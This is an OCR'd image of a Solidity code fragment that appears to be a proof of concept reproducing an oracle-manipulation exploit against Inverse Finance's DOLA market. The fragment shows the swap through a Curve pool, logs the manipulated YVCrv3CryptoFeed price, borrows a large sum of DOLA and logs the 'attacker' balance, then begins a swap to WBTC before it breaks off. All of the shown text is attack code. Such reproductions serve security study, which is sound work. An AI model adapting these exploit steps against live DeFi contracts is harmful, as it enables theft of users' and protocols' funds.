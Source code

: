 │     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, USDT balance of CRV3Pool:",                                                                                                                                                                                                       │
│       usdt.balanceOf(address(curveVyper_contract))                                                                                                                                                                                                   │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_int(                                                                                                                                                                                                                              │
│       "Manipulated YVCrv3CryptoFeed lastanswer:",                                                                                                                                                                                                    │
│       YVCrv3CryptoFeed.latestAnswer()                                                                                                                                                                                                                │
│     );                                                                                                                                                                                                                                               │
│     InverseFinanceDola.borrow(10133949192393802606886848);                                                                                                                                                                                           │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "DOLA balance of attacker:",                                                                                                                                                                                                                   │
│       DOLA.balanceOf(address(this))                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     curveRegistry.exchange(                                                                                                                                                                                                                          │
│       address(curveVyper_contract),                                                                                                                                                                                                                  │
│       address(usdt),                                                                                                                                                                                                                                 │
│       address(WBTC),                                                                                                                                                                                                                                 │
│       75403376186072,                                                                                                                                                                                                                                │
│       0,                                                                                                                                                                                                                                             │
│       address(this)                                                                                                                                                                                                                                  │